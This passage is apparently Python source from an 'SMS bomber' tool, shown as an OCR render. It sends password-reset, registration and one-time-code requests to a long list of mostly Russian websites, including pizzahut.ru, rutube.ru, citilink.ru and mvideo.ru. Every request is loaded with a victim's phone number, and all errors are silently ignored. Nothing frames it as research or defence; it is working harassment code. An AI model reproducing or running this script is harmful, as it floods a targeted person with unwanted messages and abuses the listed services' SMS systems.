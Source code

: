             s=s

        try:

            requests.post('https://pizzahut.ru/account/password-reset', data={'reset_by':'phone', 'action_id':'pass-recovery', 'phone': _phonePizzahut, '_token':'*'})

        except:

            s=s

        try:

            requests.post('https://www.rabota.ru/remind', data={'credential': _phone})

        except:

            s=s

        try:

            requests.post('https://rutube.ru/api/accounts/sendpass/phone', data={'phone': '+'+_phone})

        except:

            requests.post('https://www.citilink.ru/registration/confirm/phone/+'+_phone+'/')

        try:

            requests.post('https://www.smsint.ru/bitrix/templates/sms_intel/include/ajaxRegistrationTrigger.php', data={'name': _name,'phone': _phone, 'promo': 'yellowforma'})

        except:

            s=s

        try:

            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})

        except:

            s=s

        try:

            requests.get('https://www.oyorooms.com/api/pwa/generateotp?phone='+_phone9+'&country_code=%2B7&nod=4&locale=en')

        except:

            s=s

        try:

            requests.post('https://www.mvideo.ru/internal-rest-api/common/atg/rest/actors/VerificationActor/getCodeForOtp', params={'pageName': 'loginByUserPhoneVerification', 'fromCheckout': 'false','fromRegisterPage': 'true','snLogin': '','bpg': '','snProviderId': ''}, data={'phone': _phone,'g-recaptcha-response': '','recaptcha': 'on'})

        except:

            s=s
